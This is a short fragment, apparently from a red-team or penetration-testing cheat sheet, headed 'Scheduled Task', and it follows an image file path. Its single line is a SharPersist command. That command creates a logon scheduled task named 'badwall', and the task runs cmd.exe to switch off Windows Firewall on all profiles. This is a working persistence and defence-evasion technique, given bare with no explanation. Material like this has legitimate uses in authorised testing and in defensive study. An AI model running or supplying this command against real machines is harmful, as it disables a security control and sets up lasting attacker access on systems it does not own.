 **Scheduled Task**

`SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "NetSh Advfirewall set allprofiles state off" -n "badwall" -m add -o logon`
